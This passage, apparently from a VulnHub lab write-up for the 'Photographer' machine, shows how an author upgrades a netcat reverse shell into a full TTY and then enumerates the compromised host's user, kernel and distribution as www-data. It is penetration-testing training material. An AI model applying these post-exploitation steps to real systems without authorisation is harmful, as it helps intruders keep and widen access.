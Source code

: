
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
www-data@photographer:/$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
</usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
```

```bash
www-data@photographer:/$ export TERM=xterm-256color  
export TERM=xterm-256color  
```

```bash
www-data@photographer:/$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
```

```bash
www-data@photographer:/$ ^Z
zsh: suspended  nc -lvp 1234
```

```
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  nc -lvp 1234

www-data@photographer:/$ stty columns 200 rows 200

```

Since we have upgraded our shell, we should check who we are and on what machine we are working.
```bash
www-data@photographer:/$ whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
photographer
```
It looks like we are running the commands as `www-data` on this machine. Now we should gather some information from this machine.
Let's start with enumerating the Linux distro version and architecture. This might be useful information if we need to search for an exploit or if we might have to compile something first.
```bash
www-data@photographer:/$ uname -a
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@photographer:/$ uname -mrs
Linux 4.15.0-45-generic x86_64
www-data@photographer:/$ cat /etc/issue
Ubuntu 16.04.6 LTS \n \l
www-data@photographer:/$ cat /proc/version
Linux version 4.15.0-45-generic (buildd@lcy01-amd64-027) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.10)) #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019
www-data@photographer:/$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.6 LTS"
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
```
